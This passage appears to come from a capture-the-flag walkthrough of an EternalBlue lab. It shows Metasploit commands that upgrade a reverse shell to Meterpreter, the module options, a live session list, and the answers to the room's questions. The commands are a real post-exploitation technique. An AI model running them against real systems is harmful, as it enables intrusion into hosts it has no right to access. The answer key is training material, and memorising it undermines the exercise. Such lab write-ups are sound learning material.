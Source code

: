 Hint: `Google this: shell_to_meterpreter`
{: .notice--info}

```
msf5 exploit(windows/smb/ms17_010_eternalblue) > use post/multi/manage/shell_to_meterpreter
msf5 post(multi/manage/shell_to_meterpreter) > options 

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

msf5 post(multi/manage/shell_to_meterpreter) > 
```

ANS: `post/multi/manage/shell_to_meterpreter`

#### #2 Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)

```
msf5 post(multi/manage/shell_to_meterpreter) > sessions 

Active sessions
===============

  Id  Name  Type               Information                           Connection
  --  ----  ----               -----------                           ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601]  10.9.19.3:4444 -> 10.10.59.111:49169 (10.10.59.111)

msf5 post(multi/manage/shell_to_meterpreter) > 
```
ANS: `SESSION`

#### #3 Set the required option, you may need to list all of the sessions to find your target here. 
Hint:  `sessions -l`
{: .notice--info}

Output
```
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type               Information                           Connection
  --  ----  ----               -----------                           ----------
  1         shell x64/windows  Microsoft Windows [Version 6.1.7601]  10.9.19.3:4444 -> 10.10.59.111:49169 (10.10.59.111)

msf5 post(multi/manage/shell_to_meterpreter) > 
```
